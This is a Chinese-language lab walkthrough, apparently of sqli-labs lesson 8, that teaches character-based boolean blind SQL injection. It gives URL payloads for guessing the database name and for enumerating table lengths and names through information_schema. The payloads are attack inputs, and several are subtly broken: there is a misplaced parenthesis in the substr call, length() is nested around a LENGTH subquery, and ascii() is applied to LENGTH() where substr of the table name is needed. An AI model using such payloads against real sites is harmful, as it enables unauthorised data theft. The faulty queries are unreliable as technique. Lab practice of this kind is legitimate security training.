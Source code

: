 ![s7-3.png](s7-3.png)

### lesson 8

尝试 `1' and 1=1 --+`, 无任何返回。继续尝试, 发现网站有三种响应:
-   结果不为空的查询:   返回 `You are in ...`

-   结果为空的查询: 无任何回显。

-   存在 SQL 语法错误的查询: 无任何回显

说明此处存在字符型布尔盲注。

#### 布尔盲注:

首先仍然可以用 `order by` 判断出存在 3 个字段。

由于网页没有显错位, 这里需要使用盲注。

>   除了布尔盲注, 还有时间盲注: 通过 sleep() 来区别结果, 即使没有回显也可以判断返回结果。而布尔盲注原理是, 设想 `A and B` 中 A 的值为真, 则表达式的真假完全取决于 B , 以此来穷举猜测具体信息, 由于查询是否为假(空)时, 网站返回信息依然有区别, 因此可以判断出区别。

---

猜库名:

```url
?id=1' and (length(database())=8) --+
```

```url
?id=1' and ascii(substr(database()),1,1)=115 --+
```

>   改变 `substr` 中的参数往后遍历, 函数原型为 `substr(str, pos, len)`

---

穷举表长:

```url
?id=1' and (length(SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema='security' LIMIT 0,1)=8) --+
```

穷举表名:

```url
?id=1' and (ascii(SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema='security' LIMIT 0,1)=115) --+
```

---